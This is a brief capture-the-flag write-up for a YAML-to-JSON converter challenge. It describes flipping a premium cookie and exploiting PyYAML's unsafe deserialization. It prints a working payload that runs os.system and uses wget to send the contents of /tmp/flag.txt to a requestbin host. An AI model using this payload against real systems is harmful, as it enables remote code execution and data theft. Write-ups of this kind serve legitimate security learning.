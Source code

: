 https://yaml-2-json.ctf2021.hackpack.club/

page offers a simple conversion from .yaml to .json

| ![](https://ibb.co/1XtF9H0?size=150)

website also created a cookie premium:false
it is possible to change false to true which show us a message that PyYaml library is being used. It seems that it has some arbitrary code executions vunerabilities. After some checking me and my team found that exploit to send a flag to requestbin


{
	!!python/object/apply:os.system ["wget http://requestbin.net/r/1b9a6hxj/?`cat /tmp/flag.txt`"]
}


nice chall
